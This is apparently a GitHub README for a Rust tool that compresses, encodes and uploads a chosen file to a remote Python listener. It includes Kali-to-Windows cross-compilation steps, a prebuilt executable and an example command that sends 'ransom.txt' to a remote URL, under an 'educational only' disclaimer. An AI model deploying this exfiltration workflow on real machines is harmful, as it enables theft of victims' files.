

# File Sender

This Rust project allows you to send a file to a specified remote server. The file is first encoded, compressed, and then transmitted with custom headers to the server. With a python server.py, it will decompress, decode and save bytes into new file.
## Installation
### Prerequisites

- Rust and Cargo: Install Rust using the official installer.
    ```bash
    curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
    ```
**Note: If you have already installed Rust on Windows, it may work with Visual Studio linker. But I prefer linux for it, so I need ***mginw*** to link and compile source **
- Cross-compilation tools (for building Windows executables on Linux):
    ```bash
    sudo apt-get update
    sudo apt-get install gcc-mingw-w64-x86-64
    rustup target add x86_64-pc-windows-gnu
    ```

### Setting Up the Project

1. Clone the repository or create a new Rust project:
    ```bash
    git clone <repository_url>
    cd <repository_directory>
    ```

2. Build the project:
    ```bash
    cargo build --release
    ```

### Cross-Compilation for Windows (On Kali Linux)

To build a Windows executable on Kali Linux, follow these steps:

1. Install the necessary tools and configure Cargo for cross-compilation:
    ```bash
    sudo apt-get install gcc-mingw-w64-x86-64
    rustup target add x86_64-pc-windows-gnu
    ```

2. Create or edit the `.cargo/config` file in your project directory:
    ```bash
    mkdir -p .cargo
    nano .cargo/config
    ```

    Add the following configuration:
    ```toml
    [target.x86_64-pc-windows-gnu]
    linker = "x86_64-w64-mingw32-gcc"
    ```

3. Build the project for Windows:
    ```bash
    cargo build --release --target x86_64-pc-windows-gnu
    ```

    The resulting executable will be in the `target/x86_64-pc-windows-gnu/release` directory.

## Usage

### Running the Application

Run listening server on remote machine:
```bash
python3 server.py
```

To run the application on local, use the following command:

```bash
./<executable_name> <file_path> <remote_server>
```
   - <file_path>: Path to the file you want to send.
   - <remote_server>: The URL of the remote server where the file should be sent.
Example:
```bash
./abc.exe ransom.txt http://example.com
```
**Server**:



**Client**


**Note**: 
- file which is sent will be saved at ***output/*** directory on server.
- There is a prebuilt file named ***abc.exe*** that is available to use (no need to compile anymore)

> [!CAUTION]
> There is no clean code, no penetration test provided, this repo is for educational purposes only. Do not use for illegal purposes. I'm never responsible for illegal use. Educational purpose only!
## Support me (optional)
If you find it useful, you can support me with a cup of coffee.
[](https://ko-fi.com/Y8Y2123O0D)
